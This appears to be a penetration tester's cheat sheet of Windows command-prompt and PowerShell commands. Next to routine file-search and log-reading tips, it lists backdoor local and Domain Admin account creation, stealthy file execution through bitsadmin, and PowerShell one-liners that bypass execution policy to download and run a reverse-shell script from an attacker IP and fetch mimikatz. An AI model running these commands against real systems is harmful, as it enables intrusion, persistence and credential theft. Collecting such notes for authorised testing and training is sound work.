 # Useful commands in Windows

## Windows - Command Prompt

### Find a file
```batch
dir "\secretfile" /s
```

### Find strings in files
```batch
findstr /s /i "FLAG{" C:\*.*
```

### Find multiple words, strings and patterns
* (Equivalent of `#!bash grep -e WORD1 -e WORD2 -e WORD3`)
```batch
findstr /C:WORD1 /C:WORD2 /C:WORD3 FILENAME.TXT
```

### Enable default local "administrator" account
```batch
net user administrator /active:yes
```

### Adding local accounts (Must have system privileges)
```batch
net user trojand imashortpassword /add
net localgroup administrators trojand /add
```

### Adding a Domain Admin account
```batch
net group "Domain Admins"
net user trojandDA P@ssw0rd /add /domain
net group "Domain Admins" trojandDA /add /domain
net group "Domain Admins"
```

### List files using `#!bash tree`
```batch
tree /f
tree /f /a > tree.txt
```

### Change user password
```batch
net user trojand imareallyreallyreallylongpasswordnow
```

### Windows Built-in Plink for relay
```batch
netsh interface portproxy add v4tov4 listenport=<LPORT> listenaddress=0.0.0.0 connectport=<RPORT> connectaddress=<RHOST>
```

### Show wireless interfaces
```batch
netsh wlan show networks mode=bssid
```

### Check for logged on users
```batch
query user
```

### List local drives[^1]
```batch
wmic logicaldisk get description,name | findstr /C:"Local"
fsutil fsinfo drives
```

### bitsadmin[^4]
#### Copying a File
* Better than copy. Less conspicuous by having the service do it for you.
```batch
bitsadmin /create JOB & bitsadmin /addfile JOB <LOCAL_SRC> <LOCAL_DST> & bitsadmin /resume JOB & bitsadmin /complete JOB
bitsadmin /create JOB & bitsadmin /addfile JOB %SystemRoot%\System32\cmd.exe C:\Users\Administrator\cmd.exe & bitsadmin /resume JOB & bitsadmin /complete JOB
```
#### Execute a file
* Good for executing files as this will run under `svchost -k netsvcs` as a child process and not under you command prompt
```batch
bitsadmin /create JOB & bitsadmin /addfile JOB <LOCAL_SRC> <LOCAL_DST> & bitsadmin /SetNotifyCmdLine JOB <PROGRAM_NAME> <PARAMETERS> & bitsadmin /resume JOB & bitsadmin /reset
bitsadmin /create JOB & bitsadmin /addfile JOB %TEMP%\test1.txt %TEMP%\test2.txt & bitsadmin /SetNotifyCmdLine JOB C:\Windows\System32\calc.exe NULL & bitsadmin /resume JOB & bitsadmin /reset
```



---
## Windows - Powershell 

### Nested quotes or wrapping multiple double quotes
* Triple double quotes to make one double quote.
* In the example below, the whole RCE command is taken as a variable. Think of the single quotes also as the command portion in your RCE expoits.
    ```powershell
    var g = 'powershell -Exec Bypass -c "IEX(New-Object System.Net.WebClient).DownloadString("""http://10.0.1.5:1337/reverse.ps1""")"'
    ```
* For executing in powershell directly (i.e. interactive powershell), you must use a Grave Accent symbol before the three(3) double quotes.
    ```powershell
    powershell -Exec Bypass -c "IEX(New-Object System.Net.WebClient).DownloadString(`"""http://10.0.1.5:1337/reverse.ps1`""")"
    ```
* BEWARE: This does not seem to work if you are to encode the whole command (IEX...). Better to encode payload/command from Windows to see if it gives an error


### Download files
* Download only [^1]
    ```powershell
    Invoke-WebRequest "http://<KALI_IP>:8000/mimikatz.zip" -Out mimikatz.zip
    
    (New-Object System.Net.WebClient).DownloadFile("https://example.com/archive.zip", "C:\Windows\Temp\archive.zip")  
    
    $client = new-object System.Net.WebClient
    $client.DownloadFile("http://<KALI_IP>:8000/mimikatz.zip","mimikatz.zip")
    ```
* Download and execute
    ```powershell
    powershell -Exec Bypass -c "IEX(New-Object System.Net.WebClient).DownloadString(`"""http://10.0.1.5:1337/reverse.ps1`""")"
    ```

### cat, tail, grep in Windows PS
* Reading Files
    ```powershell
    Get-Content output.log
    ```
* Tail
    ```powershell
    Get-Content output.log -Tail <number of lines>
    Get-Content output.log -Tail 10
    ```
* Tail -f
    ```powershell
    Get-Content output.log -Tail 10 -Wait
    ```
* Grep
    ```powershell
    Get-Content output.log | Select-String -Pattern "<pattern>"
    Get-Content output.log | Select-String -Pattern "password"
    ```
* Grep -A 3
    ```powershell
    Get-Content output.log | Select-String -Pattern "password" -Context 0,3
    ```
* Tail -f | Grep -A 3
    ```powershell
    Get-Content output.log -Tail 10 -Wait | Select-String -Pattern "password" -Context 0,3
    ```

### Find files and contents
* Find files with using filenames
    ```powershell
    Get-ChildItem "C:\" -recurse -filter "*password*"
    ```
* Find contents in files
    ```powershell
    Get-ChildItem "C:\Users" -recurse | Select-String -pattern "passw" | group path | select name
    ```

### Expand Archives
```powershell
Expand-Archive Procdump.zip -DestinationPath "C:\temp\" -Force -Verbose
```

### Base64 Encode Powershell commands
* Some use cases:
    * Encoding[^2] [Powershell one-liners](../Windows/Shells.html#one-liners)
```powershell
$MYCOMAND = "Invoke-WebRequest -Uri 'http://www.contoso.com' -OutFile 'C:\path\file'"
$ENCODED = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($MYCOMMAND))
Write-Output $ENCODED
```


[^1]: [Windows Commandline - List local drives from command line](https://www.windows-commandline.com/list-local-drives-command-line/)
[^2]: [Abatchy](https://www.abatchy.com/2017/03/powershell-download-file-one-liners)
[^3]: [Tech Expert](https://techexpert.tips/powershell/powershell-base64-encoding/)
[^4]: [TrustedSec - BITS for Script Kiddies](https://www.trustedsec.com/blog/bits-for-script-kiddies/)
